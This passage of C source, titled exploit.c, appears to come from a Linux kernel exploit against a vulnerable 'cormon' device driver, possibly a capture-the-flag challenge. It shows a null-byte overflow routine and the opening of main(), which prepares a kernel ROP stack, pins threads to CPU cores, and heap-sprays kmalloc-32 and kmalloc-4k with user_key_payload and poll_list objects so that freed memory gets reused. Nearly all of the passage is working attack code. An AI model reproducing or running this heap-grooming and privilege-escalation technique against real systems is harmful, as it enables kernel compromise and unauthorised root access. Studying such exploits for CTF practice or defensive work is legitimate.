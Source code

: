 ```exploit.c
  return NULL;
}

void nullbyte_overflow(void) {
  assert(cormon_fd >= 2);
  memset(cormon_buf, 'B', 0x1000 + 0x20);
  strcpy((char*)cormon_buf + 1, "THIS_IS_CORMON_BUFFER");
  *cormon_buf = 0x00;

  if(write(cormon_fd, cormon_buf, 0x1000) != -1) errExit("nullbyte_overflow");
  errno = 0; // `write()` above must fail, so clear errno here
}

/*********** main ******************/

int main(int argc, char *argv[]) {
  char *keybuf = malloc(0x5000); // must be >= 0x4330 (low 2byte of single_next())
  puts("[.] Starting exploit.");

  puts("[+] preparing stack for later kROP...");
  save_state();
  krop_stack = mmap((void*)0x10000000, KROP_USTACK_SIZE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_FIXED, -1, 0);
  if (krop_stack == MAP_FAILED) errExit("mmap");

  assign_to_core(0);
  if ((cormon_fd = open(DEV_PATH, O_RDWR)) <= 2) errExit("open cormon");

  // Pre-spray kmalloc-32
  puts("[+] pre-spraying kmalloc-32...");
  for (int ix = 0; ix != NUM_PREPARE_KM32_SPRAY; ++ix) {
    if (open("/proc/self/stat", O_RDONLY) <= 2) errExit("prespray");
  }

  // Spray victim `user_key_payload` in kmalloc-32
  puts("[+] Spraying keys...");
  spray_keys(NUM_KEY_SPRAY, 'A');

  // Spray poll_list in kmalloc-32 and kmalloc-4k
  just_fd = open("/etc/hosts", O_RDONLY);
  printf("[+] Spraying poll_list (fd=%d)...\n", just_fd);
  if (just_fd <= 2) errExit("just_fd");

  assign_to_core(1);
  num_threads = 0;
  for (int ix = 0; ix != NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    struct alloc_poll_list_t *arg = malloc(sizeof(struct alloc_poll_list_t));
    arg->fd = just_fd; arg->id = ix;
    arg->timeout_ms = ix < NUM_1ST_POLLLIST_ALLOC ? TIMEOUT_POLLFD : 1;;
    arg->num_size = NUM_POLLFD;
    if(pthread_create(&threads[ix], NULL, alloc_poll_list, arg) != 0) errExit("pthread_create");
  }

  // Wait some of `poll_list` in kmalloc-4k is freed (these are expected to be reused by cormon_proc_write())
  assign_to_core(0);
  usleep(500 * 1000); // wait threads are initialized
  for(int ix = NUM_1ST_POLLLIST_ALLOC; ix < NUM_1ST_POLLLIST_ALLOC + 3; ++ix) {
    pthread_join(threads[ix], NULL);
  }

  // Spray again victim `user_key_payload` in kmalloc-32
  spray_keys(NUM_KEY_SPRAY, 'A');
```